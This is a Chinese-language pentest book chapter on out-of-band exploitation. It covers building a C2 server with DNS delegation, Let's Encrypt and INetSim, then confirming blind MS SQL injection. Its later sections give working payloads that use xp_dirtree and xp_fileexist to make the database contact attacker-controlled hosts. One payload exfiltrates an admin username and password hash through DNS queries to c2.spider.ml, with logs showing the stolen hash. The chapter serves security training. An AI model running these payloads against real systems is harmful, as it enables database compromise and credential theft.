







# 第六章：带外利用

在上一章中，我们探讨了确认和利用文件包含漏洞。确认部分是直观的，因为服务器会立即显现出应用程序的漏洞。那么，当情况并不那么明显时会发生什么呢？如果服务器有漏洞，但在收到意外输入时没有任何明显的提示呢？在测试 SQL 注入漏洞时，攻击者通常会输入特制的值并观察应用程序的行为。有时，如果他们运气好，服务器会返回一个鲜红的 SQL 错误信息，这可以表明存在注入点。

随着应用程序和框架变得越来越复杂，生产环境中的应用程序经过加固，曾经用于确认漏洞的行为线索不再那么显而易见。现代应用程序默认抑制错误信息，并且可能不会总是同步处理输入。如果我们的有效载荷每隔八小时由后台批处理作业执行一次，我们就无法在 HTTP 响应中看到效果，可能会错过一个潜在的关键漏洞。

**带外**漏洞发现是指我们通过迫使应用程序与我们控制的外部服务交互的过程。如果一个应用程序存在 SQL 注入漏洞，但在初次扫描时没有明显的线索，我们可以输入一个有效载荷，诱使应用程序与我们的 C2 服务器通信，足以证明我们的有效载荷已经被执行。

在本章中，我们将讨论以下内容：

+   创建 C2 服务器

+   使用**INetSim**模拟服务

+   使用带外技术确认漏洞

+   高级数据泄露

# 一个常见场景

假设应用程序`http://vuln.app.internal/user.aspx?name=Dade`在`name`参数上存在 SQL 注入漏洞。传统的有效载荷和多用途载荷似乎不会影响应用程序的响应。也许数据库错误信息被禁用，而且应用程序对`name`值的处理是异步的。

在后台的某个地方，**Microsoft SQL**（**MS SQL**）服务器执行了以下查询：

```
SELECT * FROM users WHERE user = '**Dade**';
```

对`name`值使用简单的单引号会导致 SQL 错误，这时我们就可以进行攻击，但在这种情况下，错误信息被抑制，因此从客户端的角度来看，我们根本不知道出了什么问题。进一步说，我们可以强制应用程序延迟响应一段显著的时间来确认漏洞：

```
SELECT * FROM users WHERE user = 'Dade';**WAITFOR DELAY '0:0:20' --**';
```

这个有效载荷将一个 20 秒的延迟注入到查询返回中，这个延迟足够明显，能够引起警觉，但查询是异步执行的。也就是说，应用程序在查询完成之前就响应我们，因为它可能不依赖于查询结果。

这就是在寻找难以发现的漏洞时，强制执行带外服务交互的优势所在。与`WAITFOR DELAY`有效载荷不同，以下内容将强制 MS SQL 服务器通过**服务器消息块**（**SMB**）协议连接到我们控制的任意主机：

```
';declare @q varchar(99);set **@q**=**'\\attacker.c2\test'**; exec master.dbo.xp_dirtree **@q**;--
```

尽管不常见，但这个有效载荷相当容易理解，即使是对于那些每天不处理 SQL 的我们来说。代码将：

1.  为字符串变量`@q`分配空间（类型`varchar`，长度`99`字节）

1.  将`@q`变量值设置为指向我们服务器的**通用命名约定**（**UNC**）路径：`\\attacker.c2\test`

1.  执行存储在`@q`中的 UNC 路径的目录列表

服务器可能能够或无法与我们的服务器协商 SMB 连接并获取文件列表。是否成功建立 SMB 协议通信并不重要。如果我们控制`attacker.c2`域，我们几乎可以立即证明 SQL 注入攻击的存在。这对许多通过传统扫描方法难以发现的漏洞类型同样适用。例如，**XML 外部实体**（**XXE**）攻击也可以通过完全相同的方法带外确认。一些 XSS 漏洞从攻击者的角度看并不总是明显。注入的 JavaScript 代码可能仅在一个控制面板中显示，而该控制面板通常不会呈现给攻击者，但一旦管理员登录，漏洞就会触发。这可能是几小时，甚至几天后，载荷被注入之后。带外发现和利用可以在载荷执行时立即警告攻击者。

在我们深入讨论之前，我们需要一个合适的 C2 基础设施来帮助验证这些漏洞。C2 不仅需要接受来自目标应用程序的连接，还需要处理 DNS 查询。如果应用程序的后端在出口规则集中被防火墙隔离，它将无法协商 SMB 握手。另一方面，UDP 端口`53`上的 DNS 查询几乎总是允许外发。即使应用程序无法直接连接到我们的服务器，根据设计，目标网络中的 DNS 服务器会代理解析请求，直到它到达我们的服务器。

# 命令与控制

目前有许多云服务提供商，且由于竞争激烈，它们的价格相当便宜。我们不需要一台高性能的机器：我们可以使用任何这些提供商的微型实例：

+   谷歌云

+   亚马逊 AWS

+   微软 Azure

+   DigitalOcean

谷歌云和亚马逊 AWS 有一些套餐，可以免费提供你所需要的所有虚拟机资源；当然，这些资源是有限时的。然而，对于依赖 C2 基础设施的我们来说，每月几美元的费用完全值得。

### 注意

这些 C2 实例也应该是每个客户端独立部署，并且磁盘应该加密。由于我们工作的性质，敏感的客户数据可能会流入，并且可能会以不安全的方式存储。一旦任务完成，销毁该实例及其可能收集的任何客户数据。

一旦虚拟机启动并运行，通常会分配一个临时的外部 IP 地址。在某些情况下，您可以请求一个静态 IP，但通常不需要。临时外部 IP 在虚拟机开机时将保持不变。



图 6.1：c2.spider.ml 虚拟机实例在 Google Cloud 中已启动并运行

请注意外部 IP，因为该虚拟机必须成为 C2 域的权威**名称服务器**（**NS**）。我们可以使用任何我们控制的域或子域。

在以下示例中，权威区域 `spider.ml` 将 C2 子域委托给我们的虚拟机 IP。NS 记录是必需的（`ns1.spider.ml`），因为不能直接将委托指向 IP 地址。



图 6.2：区域配置及将 c2.spider.ml 委托给我们的 C2 实例 IP

有了这两个记录，针对 `c2.spider.ml` 的查询将有效地发送到我们刚创建的 C2 服务器。任何针对 `c2.spider.ml` 子域的查询也会发送到该 IP 地址进行解析。

这很重要，因为我们必须能够查看所有对 `c2.spider.ml` 的连接请求。实现这一点有几种方式；传统的方式是配置一个**BIND**服务，拥有对新委托区域 `c2.spider.ml` 的授权。对于较不复杂的 C2 基础设施，存在一个更简单的配置替代方案，并且具备更多功能。

# Let’s Encrypt 通信

为了提供一定的传输安全性，我们可能希望启动一个 HTTPS 服务器，或者使用 SMTPS。我们可以使用自签名证书，但这并不理想。当 TLS 警告出现在客户端浏览器中时，用户会产生怀疑，或者网络代理可能会直接断开连接。我们希望使用由受信任的根证书颁发机构签署的证书。虽然有无数付费服务提供各种 TLS 证书，但最简单且成本效益最高的是 Let’s Encrypt。

Let’s Encrypt 是一个受大多数客户端信任的根证书颁发机构，允许服务器管理员为其主机请求免费的域名验证证书。它们的使命是推动我们走向一个加密的互联网，免费证书是向前迈出的重要一步。

### 注意

Let’s Encrypt 提供免费的域名验证证书，用于主机名，甚至是通配符证书。更多信息请访问 [`letsencrypt.org/`](https://letsencrypt.org/)。

为了演示，我们的 C2 将托管在 `spider.ml` 域下，并且我们将请求一个通配符证书。

第一步是下载 `certbot-auto` 包装脚本，该脚本安装依赖项并自动化大部分 Let’s Encrypt 的证书请求过程。在 Debian 系统（如 Kali）中，可以从以下位置获得此脚本：

```
**root@spider-c2-1:~# wget https://dl.eff.org/certbot-auto**
**[...]**
**root@spider-c2-1:~# chmod +x certbot-auto** 

```

Certbot 确实提供了自动更新 web 服务器配置的选项，但为了我们的目的，我们将手动请求。这会将新证书存放在磁盘的某个位置，供我们自由使用。

`--manual` 选项将允许我们通过自定义选项逐步完成请求。我们将使用 `-d` 选项指定证书有效的域名。对于通配符证书，我们必须同时指定父域名 `spider.ml` 和通配符 `*.spider.ml`。

```
root@spider-c2-1:~# ./certbot-auto certonly --manual -d ***.spider.ml** -d **spider.ml** --preferred-challenges dns-01 --server https://acme-v02.api.letsencrypt.org/directory
```

对于通配符域名，我们将使用 DNS 挑战，这意味着我们必须添加一个自定义的 TXT 记录，以便 Let’s Encrypt 能够验证我们确实拥有这个父域名。

```
root@spider-c2-1:~# ./certbot-auto certonly --manual -d ***.spider.ml** -d **spider.ml** --preferred-challenges dns-01 --server https://acme-v02.api.letsencrypt.org/directory
Saving debug log to /var/log/letsencrypt/letsencrypt.log
Plugins selected: Authenticator manual, Installer None
Obtaining a new certificate
Performing the following challenges:
**dns-01 challenge for spider.ml**
**dns-01 challenge for spider.ml**
[...]
```

certbot 向导最终会提示我们创建一个 `TXT` 记录 `_acme-challenge.spider.ml`，并使用随机生成的随机数。

```
Please deploy a DNS TXT record under the name
_acme-challenge.spider.ml with the following value:

**dGhlIG9ubHkgd2lubmluZyBtb3ZlIGlzIG5vdCB0byBwbGF5**

Before continuing, verify the record is deployed.
---------------------------------------------------------------------
Press Enter to Continue
```

在按下 *Enter* 之前，我们需要在 `spider.ml` 的 DNS 管理器中添加记录：



图 6.3：添加 TXT DNS 记录

向导可能会再次提示你更新 `TXT` 值为新值，这时你可能需要等待几分钟才能继续。设置一个较低的 TTL 值，如 5 分钟或更少，将有助于减少等待时间。

如果一切顺利，且 Let’s Encrypt 能够验证 `TXT` 记录，新的证书将被签发并存储在 `/etc/letsencrypt/live/` 目录中的某个位置：

```
Waiting for verification...
Cleaning up challenges

IMPORTANT NOTES:
 - Congratulations! Your certificate and chain have been saved at:
   **/etc/letsencrypt/live/spider.ml/fullchain.pem**
   Your key file has been saved at:
   **/etc/letsencrypt/live/spider.ml/privkey.pem**
[...]

root@spider-c2-1:~#
```

这些证书的有效期通常为几个月，符合 Let’s Encrypt 政策。你需要使用与初始请求相似的过程来更新这些证书。Certbot 会记录请求的证书及其到期日期。发出续订命令时，它会遍历我们的证书并自动续订它们。

这些 PEM 文件现在可以用于 Apache、NGINX、INetSim 或任何我们用于命令与控制的 Web 服务器。

我们可以通过调整配置文件，将 INetSIM 实例指向新生成的证书。需要查找的选项是 `https_ssl_keyfile`，它指向私钥，以及 `https_ssl_certfile`，它是证书本身。

```
root@spider-c2-1:~# grep https_ssl /etc/inetsim/inetsim.conf 
# https_ssl_keyfile
# Syntax: https_ssl_keyfile <filename>
**https_ssl_keyfile       privkey.pem**
# https_ssl_certfile
# Syntax: https_ssl_certfile <filename>
**https_ssl_certfile      fullchain.pem**
[...]
```

INetSIM 会在 `certs` 目录中查找这些文件，通常该目录位于 `/usr/share/inetsim/data/` 下。

下一步是将 `privkey.pem` 和 `fullchain.pem` 文件从 Let’s Encrypt 的 `live` 目录复制到 INetSIM 的 `certs` 目录。每次更新证书时，我们都需要记得执行此操作。通过 `crontab` 实现自动化也是一种选择。

```
root@spider-c2-1:~# cp **/etc/letsencrypt/live/spider.ml/fullchain.pem /usr/share/inetsim/data/certs/**
root@spider-c2-1:~# cp **/etc/letsencrypt/live/spider.ml/privkey.pem /usr/share/inetsim/data/certs/**

```

我们可能还应该尽量确保私钥的安全。我们将文件的所有者设置为 `inetsim`，并使用 `chmod` 限制其他所有用户的权限：

```
root@spider-c2-1:~# chown **inetsim:inetsim** /usr/share/inetsim/data/certs/privkey.pem
root@spider-c2-1:~# chmod **400** /usr/share/inetsim/data/certs/privkey.pem
```

我们现在可以启用模拟的 HTTPS 服务并测试证书的有效性：



图 6.4：Let's Encrypt 提供的 C2 HTTPS 证书

# INet 模拟

为了保持简单，我们将使用 INetSim 来模拟各种网络服务。它可以快速为多个已知端口设置监听器，并通过适当的协议提供默认响应。例如，可以启动一个 FTP 服务，接受任何凭证，并允许连接者与服务进行交互：上传、下载、列出文件等。

### 注意

INetSim 的二进制文件、源代码和文档可以在 [`www.inetsim.org/`](http://www.inetsim.org/) 获取。

INetSim 常用于封闭网络中，模拟 C2 服务器以应对恶意软件，并捕获有价值的数据。我们可以利用相同的 INetSim 工具，快速设置一个简单的基础设施，处理来自目标的连接，并附带生成每个会话报告的功能。

在我们的云端 Debian 虚拟机实例中，我们可以使用以下 `echo` 命令，添加官方软件包仓库，快速安装：

```
**root@spider-c2-1:~# echo "deb http://www.inetsim.org/debian/binary/" > /etc/apt/sources.list.d/inetsim.list**
**root@spider-c2-1:~#**

```

为了避免 Debian 的 `apt` 在安装过程中出现警告，我们可以使用 `wget` 命令来获取签名密钥。然后我们将响应通过管道传递给 `apt-key`，以便将其添加到密钥链中：

```
**root@spider-c2-1:~# wget -O - https://www.inetsim.org/inetsim-archive-signing-key.asc | apt-key add -**
**[...]**
**(464 MB/s) - written to stdout [2722/2722]**
**OK**
**root@spider-c2-1:~#**

```

下一步是从新安装的 `apt` 仓库中获取 `inetsim` 软件包并进行安装。

```
**root@spider-c2-1:~# apt-get update && apt-get install inetsim**
**[...]**
**root@spider-c2-1:~#**

```

INetSim 的默认配置可能对于我们的目的来说有些过于复杂。诸如 FTP 这样的服务，允许任意凭证并提供上传支持，不应在互联网上启用。

### 注意

INetSim 是一个很棒的工具，但使用时需要小心。如果你构建的 C2 服务器是用于长期合作，最好为每个拦截的服务使用合适的守护进程。

我们可以通过编辑 `/etc/inetsim/inetsim.conf` 文件，禁用不需要的服务。我们可以在每个希望禁用的 `start_service` 行前加上井号（`#`），如所示：



图 6.5：编辑 INetSim 配置文件，以仅启用 DNS、HTTP 和 HTTPS 模拟

默认的 DNS 配置也必须修改，以匹配 `c2.spider.ml` 委派的区域。`dns_default_ip` 值应指向 C2 外部 IP，因为我们希望 HTTP 流量也能被重定向到那里。

`dns_default_hostname` 值将设置为区域子域 `c2`，而 `dns_default_domainname` 值将是 `spider.ml` 主域名。这基本上告诉 INetSim 对该区域的任何查询都以 `dns_default_ip` 值进行响应。

这将对我们的带外漏洞发现非常有用，并且还有其他用途，稍后我们会看到。



图 6.6：修改后的 /etc/inetsim/inetsim.conf 配置文件中的 dns_default_* 设置

默认情况下，INetSim 会对请求作出响应，并返回针对查询的协议的默认“假”数据。这些“假”文件存储在`/var/lib/inetsim`中，并且描述性较强。为了更加隐蔽，我们应该至少在默认的 HTTP 响应中添加一些无害的文本。

以下`echo`命令将用良性 JavaScript 代码替换示例 HTTP 文件的内容：

```
**root@spider-c2-1:~# echo 'console.log("1");' > /var/lib/inetsim/http/fakefiles/sample.html**
**root@spider-c2-1:~# echo 'console.log("2");' > /var/lib/inetsim/http/wwwroot/index.html**

```

为了将我们的简单 C2 服务器上线，我们必须启动 INetSim 守护进程，并使用`--bind-address`选项告诉它将服务监听器绑定到`0.0.0.0`，如图所示：

```
**root@spider-c2-1:~# inetsim --bind-address=0.0.0.0**
**INetSim 1.2.7 by Matthias Eckert & Thomas Hungenberg**
**[...]**
 **Forking services...**
 *** dns_53_tcp_udp - started (PID 4110)**
 *** https_443_tcp - started (PID 4112)**

*** http_80_tcp - started (PID 4111)**
 **done.**
**Simulation running.**

```

我们可以通过访问委托域范围内的随机子域，或者从我们的攻击 Kali 机器发出`dig`查询，来测试 INetSim 提供的 DNS 服务器：

```
**root@kali:~# dig +short c2FudGEgY2xhdXNlIGlzIG5vdCByZWFs.c2.spider.ml**
**35.196.100.89**

```

这是我们的 DNS 查询在互联网上的路径：

1.  客户端向其本地 DNS 服务器请求答案

1.  本地 DNS 服务器转发到互联网根名称服务器

1.  根服务器将查询转发到 ML 顶级域的权威服务器

1.  ML 权威服务器将查询转发到`spider.ml`权威服务器

1.  我们之前添加的 NS 记录会将查询转发到我们的 C2 服务器

由于我们控制着负责`c2`区域的 DNS 服务器，我们可以检查`/var/log/inetsim/service.log`文件，并使用`tail`命令观察对`dig`请求的响应，如下所示：

```
**root@spider-c2-1:~# tail /var/log/inetsim/service.log**
**[...] [11033] [dns_53_tcp_udp 11035] connect**
**[...] [11033] [dns_53_tcp_udp 11035] recv: Query Type A, Class IN, Name c2FudGEgY2xhdXNlIGlzIG5vdCByZWFs.c2.spider.ml**
**[...] [11033] [dns_53_tcp_udp 11035] send: c2FudGEgY2xhdXNlIGlzIG5vdCByZWFs.c2.spider.ml 3600 IN A 35.196.100.89**
**[...] [11033] [dns_53_tcp_udp 11035] disconnect**
**[...] [11033] [dns_53_tcp_udp 11035] stat: 1 qtype=A qclass=IN qname=c2FudGEgY2xhdXNlIGlzIG5vdCByZWFs.c2.spider.ml**
**root@spider-c2-1:~#**

```

C2 基础设施已准备好进行带外漏洞发现扫描。

# 确认

现在云服务器已正确配置为记录通过 DNS 接收到的请求，我们可以回到之前的示例，利用云服务器进行带外确认漏洞。

你会记得，存在漏洞的应用允许通过`name`参数执行未经过滤的输入到 SQL 服务器。作为攻击者，我们有时面临的挑战是，应用在输入时没有表现出不同的行为，从而很难确认此类漏洞的存在。有时，我们甚至幸运地能够检查源代码，在这种情况下我们可以直接跳到利用漏洞的步骤。

`WAITFOR DELAY`有效载荷适用于大多数盲 SQL 注入，因为大多数应用视图依赖于控制器执行的 SQL 查询结果。

```
SELECT * FROM users WHERE user = 'Dade';**WAITFOR DELAY '0:0:20' --**';
```

在这种令人惊讶的常见场景中，漏洞查询是异步执行的，且页面没有返回任何有用的信息，我们可以欺骗 SQL 服务器联系我们新创建的 C2 基础设施，从而在没有应用帮助的情况下得到确认。

完成此操作的有效载荷将如下所示：

```
';declare @q varchar(99);set @q='\\sqli-test-payload-1.c2.spider.ml\test'; exec master.dbo.xp_dirtree @q;--
```

当后台系统构建查询以执行时，它将转换为以下内容：

```
SELECT * FROM users WHERE user = 'Dade';**declare @q varchar(99);set @q='\\sqli-test-payload-1.c2.spider.ml\test'; exec master.dbo.xp_dirtree @q;--**';
```

再次检查我们的 C2 服务器上的`/var/log/inetsim/service.log`文件时，我们可以看到来自 SQL 服务器后台的查询，试图在执行共享目录列表之前解析`sqli-test-payload-1.c2.spider.ml`域名：

```
[1438] [dns_53_tcp_udp 1441] connect
[1438] [dns_53_tcp_udp 1441] recv: Query Type A, Class IN, Name **sqli-test-payload-1.c2.spider.ml**
[1438] [dns_53_tcp_udp 1441] send: sqli-test-payload-1.c2.spider.ml 3600 IN A **35.196.100.89**
[1438] [dns_53_tcp_udp 1441] disconnect
```

我们已强制应用程序向我们控制的服务器发起 DNS 查询。通过在 C2 日志中看到非常特定的查询，我们能够确认存在可利用的 SQL 注入漏洞。

# 异步数据泄露

这种特定类型的漏洞还有一个挑战。由于它的异步特性，传统的数据泄露方法无法使用。虽然查询可能会成功执行，且 SQL 服务器会延迟查询结果，但我们永远无法衡量这一点，因为我们所针对的应用程序不会等待 SQL 服务器的响应，而是立即返回。

我们需要稍微动点脑筋才能提取数据并成功攻破目标。MS SQL 服务器、MySQL、PostgreSQL 等都提供了实现我们目标的方法。我们将只讨论一种 MS SQL 的方法，但凭借一些创意，任何数据库引擎都可以为攻击者所用。还要记住，这种方法不仅可以用于确认 SQL 注入漏洞，也可以用于 XSS 和 XXE 漏洞，这些内容在本书的其他章节中有讨论。

让我们重新回顾一下我们用来确认漏洞的方法。我们传入了一个查询，强制 SQL 服务器解析一个任意的域名，试图通过 SMB 列出网络共享的内容。由于我们控制着该共享域名的 DNS 服务器，我们可以拦截发送到它的任何查询。确认漏洞的过程只是观察到应用服务器尝试解析我们传入的网络共享域名。要实际获取数据，我们需要构建一个执行这些操作的查询：

+   按角色选择一个高价值用户（`admin`）

+   选择该用户的密码

+   用句点连接这两个值：[admin].[hash]

+   将该值添加到`c2.spider.ml`域名前面

+   强制执行 DNS 查询

与我们的第一个载荷类似，我们将声明一个变量`@q`，该变量将存储我们从数据库中提取的数据：

```
declare @q varchar(99);
```

接下来，我们将使用几个`SELECT`语句来读取第一个具有`admin`角色的账户的`user`字段：

```
select top 1 user from users where role = 'admin'
```

我们还将选择该用户的`password`字段：

```
select top 1 password from users where role = 'admin'
```

为了泄露这些数据，我们需要使用 MS SQL 的`CONCAT()`函数来拼接这两个值：

```
select concat((select top 1 user from users where role = 'admin'),'.',(select top 1 password from users where role = 'admin'))
```

拼接的结果将存储在`@q`变量中，如下所示：

```
set @q=(select concat((select top 1 user from users where role = 'admin'),'.',(select top 1 password from users where role = 'admin')));
```

最后，我们执行`xp_fileexist` MS SQL 函数，强制发起 DNS 和 SMB 请求到我们的 C2 服务器，并将`@q`的内容作为子域：

```
exec('xp_fileexist **''\\'+@q+'.c2.spider.ml\test''**');--'
```

紧跟在双斜杠前面的双引号和单引号是 Windows 方式的转义单引号。

最终的载荷有点凌乱，但应该能奏效。我们将把所有语句合并为一行，每个语句之间用分号分隔：

```
';declare @q varchar(99);set @q=(select concat((select top 1 user from users where role = 'admin'),'.',(select top 1 password from users where role = 'admin'))); exec('xp_fileexist **''\\'+@q+'.c2.spider.ml\test''**');--
```

在后台，执行的 SQL 查询将如下所示：

```
SELECT * FROM users WHERE user = 'Dade';**declare @q varchar(99);set @q=(select concat((select top 1 user from users where role = 'admin'),'.',(select top 1 password from users where role = 'admin'))); exec('xp_fileexist ''\\'+@q+'.c2.spider.ml\test''');--**';
```

就像带外确认一样，我们声明了一个变量，其值将是连接的管理员用户名及其相应的密码哈希。最终命令指示 SQL 服务器通过 `EXEC()` MS SQL 函数执行 `xp_fileexist` 命令。和之前一样，我们不关心结果；我们只是想强制服务器发出一个我们控制的域名的 DNS 查询。

C2 服务器应该已收到一个包含从数据库中提取的凭证的 DNS 查询，以域名的形式表示：

```
**[...] [1438] [dns_53_tcp_udp 1441] connect**
**[...] [1438] [dns_53_tcp_udp 1441] recv: Query Type AAAA, Class IN, Name administrator.a7b0d65fdf1728307f896e83c306a617.c2.spider.ml**
**[...] [1438] [dns_53_tcp_udp 1441] disconnect**
**[...] [1438] [dns_53_tcp_udp 1441] stat: 1 qtype=AAAA qclass=IN** 
**qname=administrator.a7b0d65fdf1728307f896e83c306a617.c2.spider.ml**

```

